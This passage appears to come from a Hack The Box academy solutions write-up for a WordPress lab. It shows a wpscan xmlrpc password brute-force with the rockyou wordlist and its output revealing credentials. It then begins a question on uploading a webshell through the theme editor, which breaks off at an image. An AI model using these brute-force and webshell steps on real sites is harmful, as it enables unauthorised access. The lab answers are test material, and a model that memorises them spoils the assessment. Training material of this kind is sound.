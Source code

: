 ```
┌─[us-academy-1]─[10.10.14.135]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ wpscan --password-attack xmlrpc -t 40 -U roger -P /usr/share/wordlists/rockyou.txt --url  http://206.189.25.173:32521

_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _\` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.17
                               
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[i] Updating the Database ...
[i] Update completed.

[+] URL: http://206.189.25.173:32521/ [206.189.25.173]
[+] Started: Thu Jun 23 06:25:23 2022

<SNIP>

[+] Performing password attack on Xmlrpc against 1 user/s
[SUCCESS] - roger / lizard                                                                                                                               
Trying roger / jacqueline Time: 00:01:24 <> (1920 / 14346312)  0.01%  ETA: ??:??:??

[!] Valid Combinations Found:
 | Username: roger, Password: lizard
```

Answer: `lizard`

# RCE via the Theme Editor

## Question 1

### "Use the credentials for the admin user \[admin:sunshine1\] and upload a webshell to your target. Once you have access to the target, obtain the contents of the "flag.txt" file in the home directory for the "wp-user" directory."

After spawning the target machine, students need to login at `http://STMIP:STMPO/wp-login.php` using the credentials `admin:sunshine1`:

![[HTB Solutions/CBBH/z. images/ce6a030df6a39e81723f642621b3bfff_MD5.jpg]]
